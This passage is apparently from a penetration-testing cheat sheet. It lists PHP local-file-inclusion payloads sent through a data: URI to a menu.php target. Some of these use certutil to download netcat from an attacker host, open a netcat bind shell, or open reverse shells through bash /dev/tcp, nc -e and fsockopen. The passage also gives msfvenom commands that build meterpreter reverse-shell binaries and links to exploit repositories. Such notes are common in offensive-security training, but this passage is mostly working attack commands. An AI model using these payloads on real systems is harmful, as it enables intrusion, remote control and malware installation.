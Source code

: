     http://192.168.152.10/menu.php?file=data:text/plain,<?php echo shell_exec("certutil -urlcache -split -f http://192.168.119.152/nc.exe.txt c:\windows\system32\nc.exe") ?>

#### Run bind shell with netcat

    http://192.168.152.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc.exe -nlvp 4444 -e cmd.exe") ?>

	# connect to the bind shell from attacker machine
	# nc -nv 192.168.152.10 4444

### PHP - Other Examples
```
<?php shell_exec("bash -i >& /dev/tcp/10.11.0.61/5555 0>&1") ?>

<?php shell_exec("nc -e /bin/sh 10.11.0.61 5555") ?>
<?php shell_exec("nc -e /bin/sh 10.11.0.61 5555") ?>

<?php $sock=fsockopen("10.11.0.61",5555);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

# Assembly
Good info on windows assembly and exploits:
https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit

# Exploits
https://github.com/Screetsec/TheFatRat

## VBscript Remote Code Execution
https://github.com/Yt1g3r/CVE-2018-8174_EXP

# Creating Metasploit Payloads

	List payloads
	msfvenom -l

## Binaries

	Linux
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

	Windows
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
